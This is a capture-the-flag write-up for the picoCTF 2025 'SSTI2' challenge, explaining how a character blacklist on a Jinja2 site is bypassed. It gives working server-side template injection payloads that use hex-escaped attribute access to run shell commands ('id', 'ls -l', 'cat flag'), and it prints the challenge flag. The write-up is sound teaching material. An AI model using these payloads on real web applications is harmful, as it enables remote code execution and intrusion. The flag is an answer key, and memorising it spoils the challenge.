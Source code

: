 # SSTI2

- [Challenge information](#challenge-information)
- [Overview](#overview)
- [Solution](#solution)
- [Flag](#flag)
## Challenge information
```text
Tags: Web Exploitation, browser_webshell_solvable, picoCTF 2025

Description:
I made a cool website where you can announce whatever you want!  
I read about input sanitization, so now I remove any kind of characters that could be a problem :)

Hints:
1. Server Side Template Injection 
2. Why is blacklisting characters a bad idea to sanitize input?
```
## Overview
Website where you can announce whatever you want!  
<img width="500" height="350" alt="image" src="https://github.com/user-attachments/assets/922068b0-da07-44fc-8dea-1b1c0d59735b" />  
  
It can be seen that the web will reflect back what we enter into the box   
# Solution
**Step1:** Recon  
I did recon in a previous post [SSTI1](https://github.com/ncKien05/CTF/blob/main/picoCTF/SSTI1.md?plain=1)  
**Step2:** Now we will enter: `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}` to see what the web returns  
<img width="500" height="350" alt="image" src="https://github.com/user-attachments/assets/c72c9acc-f60c-419d-97de-b46a3f16b658" />  
It seems like some characters have been filtered  
<img width="500" height="350" alt="image" src="https://github.com/user-attachments/assets/3cdab2ce-0959-4b94-9154-141255f27fe3" />  
Filtering with a blacklist like this is actually quite risky  
=> We can encode characters to hex and then use request dynamic attribute access in Jinja2  
Now we wil enter `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}`  
<img width="500" height="350" alt="image" src="https://github.com/user-attachments/assets/93ea84df-579e-4302-a007-3460b85da70e" />  
Web has actually executed our `Id` statement  
**Step3:** Exploit  
Now we will find where the flag is using `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls -l')|attr('read')()}}`  
<img width="500" height="350" alt="image" src="https://github.com/user-attachments/assets/132c8812-2130-45f8-b945-260d3577f7a4" />  

## Flag 
Use `cat flag` to read  
Flag will be returned   
picoCTF{sst1_f1lt3r_byp4ss_a9824e27}  



